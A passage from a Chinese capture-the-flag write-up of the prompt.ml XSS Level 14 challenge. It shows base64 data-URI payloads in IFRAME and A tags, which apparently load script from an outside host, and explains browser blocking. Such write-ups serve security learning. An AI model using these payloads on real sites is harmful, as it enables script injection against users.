 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/13.png)

------------


### 其他 payload

如果大家还没忘记的话，我在最开始就提到，Data URIs 可用的 HTML 标签有 4 个：

- `<img>` 标签的 `src` 属性
- `<object>` 标签的 `data` 属性
- `<iframe>` 标签的 `src` 属性
- `<a>` 标签的 `href` 属性

其中 `<img>` 标签是无法用来触发 JS 的，而 `<object>` 标签前面已经用过了。

实际上 `<iframe>` 标签也是可以完成挑战的，例如这两个 payload 均可：

```html
"><IFRAME/SRC="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=
```

```html
"><IFRAME/SRC="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6RS5YUD4KPC9TQ1JJUFQKID4=
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/14.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/15.png)

`<a>` 标签原本也是可以触发 JS 的，不妨构造这样的 payload 测试下：

```html
"><A/HREF="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=">link</A><IMG/SRC="
```

但是 [http://prompt.ml/](http://prompt.ml/) 似乎跟按钮有仇，死活不让点击超链。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/16.png)

不过即使能点击也没用，现代的浏览器为了避免 `<a>` 标签的 Data URIs 被用于跨站攻击，默认都是拦截掉请求了：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/17.png)

------------

## 解题方法二（Unicode）

### 前置知识

- [相对协议地址](http://blog.httpwatch.com/2010/02/10/using-protocol-relative-urls-to-switch-between-http-and-https/)
- [Unicode 字符编码](https://zh.wikipedia.org/wiki/Unicode%E5%AD%97%E7%AC%A6%E5%88%97%E8%A1%A8)
- [`<script>` 异步执行属性 `async`](http://www.w3school.com.cn/html5/att_script_async.asp)
